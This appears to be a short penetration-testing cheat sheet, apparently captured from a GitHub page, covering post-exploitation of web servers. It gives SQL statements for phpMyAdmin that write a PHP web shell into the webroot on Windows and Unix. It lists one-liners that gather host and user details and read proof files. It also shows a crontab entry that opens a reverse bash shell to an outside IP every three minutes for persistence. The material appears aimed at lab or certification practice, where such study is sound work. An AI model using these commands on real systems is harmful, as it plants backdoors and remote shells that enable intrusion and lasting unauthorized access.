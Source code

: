 ## PhpmyAdmin

PhpmyAdmin

Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)

Windows

SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

Unix

SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"

## Proof

*Linux*

```bash
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```

*Windows*

```bash
echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"
```



## Persistence

*Crontab*

```bash
(crontab -l ; echo "*/3 * * * *  	/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.8/6002 0>&1'")|crontab 2> /dev/null
```

